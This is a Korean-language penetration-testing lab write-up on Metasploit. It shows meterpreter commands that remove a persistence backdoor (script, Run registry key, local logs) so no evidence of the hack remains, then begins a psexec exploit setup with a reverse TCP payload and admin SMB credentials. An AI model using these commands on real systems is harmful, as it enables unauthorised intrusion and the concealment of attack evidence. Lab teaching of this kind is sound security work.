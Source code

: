 backdoor는 해킹의 증거가 될 수도 있기 때문에 공격 컴퓨터에서 필요한 정보를 얻은 뒤 반드시 Romove Backdoor 과정을 통해 Backdoor을 제거해주어야 한다.

[과정]

1. Backdoor script 제거
2. Registry 제거
3. Local file 제거 

1) Backdoor script 제거

처음으로 미터프리터 세션에 있는 Backdoor script 를 제거하자

```
meterpreter > rm [backdoor script] //[+]옆에 있는 경로 복사

ex)
meterpreter > rm "C:\WINDOWS\TEMP\URsefP.vbs"
```

2) Registry 제거

```
meterpreter > reg deleteval -k "registry 경로" -v "파일이름" //[+]옆의 경로 복사 

ex) 
meterpreter > reg deleteval -k "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -v "yRcLXouIih"
```

3) Local file 제거

```
ex)
root@kali:~# cd /root/.msf4/logs/persistence  
root@kali:~/.msf4/logs/persistence rm -rf MINJI-Y560ZLU1S_20200720.0504/
```

Backdoor가 제거되었다.




### 실습 4) Windows 8에서 persistence 모듈 실행

네트워크 상태 확인 및 공격 IP를 확인한 후 메타스플로잇 실행

```
root@kali: ~# msfconsole
```

우리는 psexec 를 사용할 것이다. 

psexec을 검색하여 알맞은 exploit 명령어를 이용하고 payload 도 설정해준다.

```
msf > search psexec
msf > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set payload windows/meterpreter/reverse_tcp_allports
```

옵션을 열고 비어있는 부분을 설정해주자

```
msf5 exploit(windows/smb/psexec) > show options
msf5 exploit(windows/smb/psexec) > set RHOST [공격대상 IP]
msf5 exploit(windows/smb/psexec) > set LHOST [Kali IP]
msf5 exploit(windows/smb/psexec) > set smbuser administrator
msf5 exploit(windows/smb/psexec) > set smbpass [password]
```
